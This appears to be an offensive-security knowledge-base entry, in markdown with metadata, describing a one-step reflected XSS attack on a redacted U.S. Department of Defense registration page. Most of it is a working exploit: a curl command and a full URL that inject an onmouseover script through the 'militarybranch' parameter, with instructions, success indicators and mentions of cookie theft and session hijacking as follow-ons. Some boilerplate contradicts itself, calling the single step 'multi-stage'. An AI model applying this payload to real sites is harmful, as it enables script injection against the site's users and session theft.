

---
tags:
  - xss
  - reflected-xss
  - web-vulnerability
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-Reflected-XSS-in-Military-Branch-Parameter]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:15:53.479Z'
description: >-
  A single-stage attack exploiting a reflected XSS vulnerability in the
  'militarybranch' GET parameter of a U.S. Department of Defense registration
  endpoint to execute arbitrary JavaScript in the victim's browser.
skill_level: beginner
impact_level: high
id: d0d3f567-7da2-4e2e-96b3-68ea9c85c4c5
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Reflected XSS Exploitation in Military Branch Parameter on DoD Registration Page

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or [[tools/curl]]

### Target Environment

- Web application hosted on a U.S. Department of Defense subdomain
- Publicly accessible registration page at /path/user/NextRequestAccount.action
- No authentication required for initial access

### Initial Access Requirements

- Internet access to the target URL
- No credentials needed
- Victim must interact with the malicious link (e.g., mouseover event)

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploit-Reflected-XSS-in-Military-Branch-Parameter]]

**Objective**: Inject and execute arbitrary JavaScript code via the unsanitized 'militarybranch' GET parameter to demonstrate code execution in the browser context.

**Instructions**: Construct a URL with the XSS payload in the 'militarybranch' parameter and access it in a browser. The payload uses HTML entity encoding to inject an onmouseover event that triggers an alert. Fill other required parameters with dummy values to mimic a legitimate request.

Use [[commands/curl-send-xss-payload]] to test the payload via command line:

```bash
curl -G "https://████████████/path/user/NextRequestAccount.action" \
  -d "militarybranch=███%3CHTMl%0Aonmouseover%0A=%0Aalert(%27XSSSuccess!%27)%0Dx//" \
  -d "firstName=0xd3adc0de" \
  -d "middleName=0xd3adc0de" \
  -d "lastName=0xd3adc0de" \
  -d "email=0xd3adc0de" \
  -d "title=0xd3adc0de" \
  -d "department=" \
  -d "organization=" \
  -d "ship=0xd3adc0de" \
  -d "orgid=" \
  -d "location=;"
```

In a browser, navigate to the full URL: https://████████████/path/user/NextRequestAccount.action?militarybranch=███%3CHTMl%0Aonmouseover%0A=%0Aalert(%27XSSSuccess!%27)%0Dx//&firstName=0xd3adc0de&middleName=0xd3adc0de&lastName=0xd3adc0de&email=0xd3adc0de&title=0xd3adc0de&department=&organization=&ship=0xd3adc0de&orgid=&location=;. Hover the mouse over the reflected payload to trigger execution.

**Expected Output**: The page loads with the injected script reflected in the HTML. On mouseover, a JavaScript alert displays 'XSS Success!' confirming arbitrary code execution.

**Success Indicators**:
- Payload reflected unsanitized in the response HTML
- Alert box appears on mouseover interaction
- Browser console shows no errors, but script executes

## Attack Chain Summary

### Key Achievements

1. Successful injection and execution of JavaScript payload in a public DoD endpoint
2. Demonstration of potential for cookie theft, session hijacking, or phishing via browser-based attacks
3. Identification of lack of input sanitization in user-supplied GET parameters

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
